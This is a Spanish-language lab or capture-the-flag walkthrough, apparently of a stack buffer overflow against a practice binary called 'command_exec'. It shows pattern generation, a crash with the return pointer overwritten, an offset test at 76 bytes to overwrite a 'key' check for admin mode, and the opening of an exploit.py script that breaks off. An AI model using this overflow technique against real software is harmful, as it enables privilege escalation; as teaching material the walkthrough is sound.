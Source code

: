 Una ves creado en la documentacion nos indica como generar los caracteres:
```bash
python3 overflowCreate.py -b 88 -o 4
```

Nos retorna este patron:
```bash
=== Patrón Generado ===
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Esta cadena la tenemos que inyectar en el campo donde nos pide la contrasena:
```bash
run
```

Asi lo inyectamos:
```bash
Escribe la contraseña: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Tenemos este resultado:
```bash
Estás en modo usuario (key = 41414141)
key debe valer 0xdead para entrar al modo administrador

Program received signal SIGSEGV, Segmentation fault.
0x00007f0042424242 in ?? ()
```

Como indica en la documentacion estamos sobreescribiendo el **RIP** con los caracteres: **B** que estan representados en **hexadecimal** con el **( 0x00007f0042424242 )** y las **A** con el **( key = 41414141 )** asi que se esta sobreescribiendo correctamente:
```bash
Program received signal SIGSEGV, Segmentation fault.
0x00007f0042424242 in ?? ()
```

En la documentacion nos indica como seria de forma manual detectar donde se sobreescribe: **( B(42) )** y la **key** que indica el binario:
```bash
python2 -c 'print b"A"*76 + b"B"*8' | ./command_exec
```

Resultado:
La **key** se sobreescribe con **b(42)** despues de los **76** caracteres, Indicando que el valor real del **offset** 
```bash
Escribe la contraseña: Estás en modo usuario (key = 42424242)
key debe valer 0xdead para entrar al modo administrador
```

## Automatizacion: `dead`
En la documentacion indica que la direccion de memoria es: **( 0xdead )** que es la que sobreescribe a la **key** 
Para ello usaremos otro script que nos automatize eso y lo llamaremos: **( exploit.py )**
**Nota** En la variable: **program** colocamos la ruta exacta en donde tenemos el binario.
```python
#!/bin/python3

import subprocess

# 1. Offset para alcanzar la ubicación de la variable 'key' en la pila
# Este valor debe ser ajustado para coincidir con la cantidad de bytes que debemos sobrescribir
# antes de llegar a la variable 'key' o la dirección que queremos manipular.
offset = 76

# 2. Crear la parte del RIP (Return Instruction Pointer), utilizando 'A' para llenar la memoria.
```